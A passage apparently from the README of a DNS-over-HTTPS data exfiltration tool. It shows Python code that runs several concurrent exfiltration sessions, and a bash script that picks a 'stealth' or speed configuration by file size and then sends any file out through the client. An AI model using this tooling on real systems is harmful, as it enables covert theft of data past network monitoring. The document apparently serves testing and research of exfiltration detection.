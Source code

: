 ## 🔍 Advanced Scenarios

### Multi-Session Exfiltration
```python
# Simulate multiple concurrent exfiltrations
import threading
from client import DoHExfiltrationClient, create_default_config

def exfiltrate_session(session_id, data):
    config = create_default_config()
    client = DoHExfiltrationClient(config)
    client.exfiltrate_data(data.encode(), f"session_{session_id}")

# Start multiple sessions
threads = []
for i in range(3):
    data = f"Session {i} confidential data with unique content {i*100}"
    thread = threading.Thread(target=exfiltrate_session, args=(i, data))
    threads.append(thread)
    thread.start()

# Wait for completion
for thread in threads:
    thread.join()
```

### Adaptive Chunk Sizing
### Adaptive Configuration Selection
```bash
# Script to select configuration based on file size
cat > adaptive_test.sh << 'EOF'
#!/bin/bash
FILE_PATH="$1"
FILE_SIZE=$(wc -c < "$FILE_PATH")

if [ "$FILE_SIZE" -lt 1024 ]; then
    # Small files - use stealth
    CONFIG="test_configs/stealth_research.json"
elif [ "$FILE_SIZE" -lt 10240 ]; then
    # Medium files - use quick test
    CONFIG="test_configs/quick_test.json"
else
    # Large files - use speed benchmark
    CONFIG="test_configs/speed_benchmark.json"
fi

echo "File size: $FILE_SIZE bytes, using config: $CONFIG"
python run_client.py --config "$CONFIG" --file "$FILE_PATH"
EOF

chmod +x adaptive_test.sh

# Usage
./adaptive_test.sh /path/to/any_file.dat
```
